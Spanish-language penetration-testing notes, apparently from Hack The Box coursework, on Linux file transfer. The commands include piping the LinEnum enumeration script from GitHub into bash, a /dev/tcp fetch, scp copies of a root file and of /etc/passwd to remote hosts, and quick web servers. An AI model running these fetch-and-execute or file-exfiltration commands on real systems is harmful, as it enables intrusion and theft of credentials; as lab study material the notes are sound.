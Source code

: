 ## Fileless atacks

Haciendo uso de *pipes*, podemos prescindir de archivos:

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## /dev/TCP

Con builtins de bash podemos transferir archivos, por ejemplo mediante `/dev/tcp`:

Primero establecemos una conexión:

```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

Tramitamos la petición:

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

E imprimimos la respuesta:

```bash
cat <&3
```

## [[22-ssh|SSH]]

Mediante [[scp]], podemos transferir archivos:

```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

Y para subirlos:

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

## Web Server Uploads

```bash
python2.7 -m SimpleHTTPServer
```
```bash
python3 -m http.server
```

```bash
php -S 0.0.0.0:8000
```
